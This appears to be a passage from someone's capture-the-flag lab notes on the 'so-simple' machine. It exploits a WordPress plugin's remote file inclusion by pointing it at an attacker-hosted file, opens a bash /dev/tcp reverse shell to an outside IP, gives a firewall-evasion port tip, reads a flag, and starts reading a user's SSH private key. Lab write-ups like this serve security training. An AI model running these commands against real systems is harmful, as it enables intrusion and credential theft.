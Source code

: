   

So now there is the user Steven found from this. Even better is RCE works so now I'll reverse shell

  

Set up listener (I forget to do this if I do it afterwards)

  

Rev shell command is bash -i >& /dev/tcp/192.168.45.233/8080 0>&1 

Better to use well known ports since firewalls will block sketchy looking ones like 7777 etc

  

<pre>system("bash -c 'bash -i >& /dev/tcp/192.168.45.233/8080 0>&1 ")</pre>

  
  

http://192.168.236.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.45.233/revshell.txt

  

With that I'm in

  

www-data@so-simple:/home/max$ cat local.txt

cat local.txt

dfea93243c595f0d0c53f8837553ea22

www-data@so-simple:/home/max$

  

Now to see if we can get privesc 

  

A route suggested is to check his ssh key privileges since we're in as the www-data user

  

www-data@so-simple:/home/max$ cd .ssh

cd .ssh

www-data@so-simple:/home/max/.ssh$ ls -alt

ls -alt

total 20

drwxr-xr-x 7 max  max  4096 Aug 22  2020 ..

drwxr-xr-x 2 max  max  4096 Jul 14  2020 .

-rw-r--r-- 1 max  max   568 Jul 14  2020 authorized_keys

-rwxr-xr-x 1 root root 2602 Jul 14  2020 id_rsa

-rw-r--r-- 1 root root  568 Jul 14  2020 id_rsa.pub

www-data@so-simple:/home/max/.ssh$cat id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
